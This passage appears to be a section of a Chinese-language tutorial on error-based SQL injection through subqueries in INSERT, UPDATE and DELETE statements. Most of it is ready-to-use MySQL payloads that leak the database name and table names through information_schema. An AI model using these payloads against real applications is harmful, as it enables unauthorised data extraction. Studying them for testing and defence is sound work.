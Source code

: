 ## 0x06 利用子查询注入

* * *

原理与 select 查询时的显错注入一致。

Insert：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or'', 'Nervo'); 
```

![enter image description here](img/img21_u22_png.jpg)

update：

```
UPDATE users SET password='Nicky' or (SELECT 1 FROM(SELECT count(*),concat((SELECT(SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a)or'' WHERE id=2 and username='Nervo'; 
```

![enter image description here](img/img22_png.jpg)

delete：

```
DELETE FROM users WHERE id=1 or (SELECT 1 FROM(SELECT count(*),concat((SELECT(SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a)or'' ; 
```

![enter image description here](img/img23_u5_png.jpg)

提取数据：

获取 newdb 数据库表名：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT distinct concat(0x7e,0x27,cast(table_name as char),0x27,0x7e) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '','Nervo'); 
```
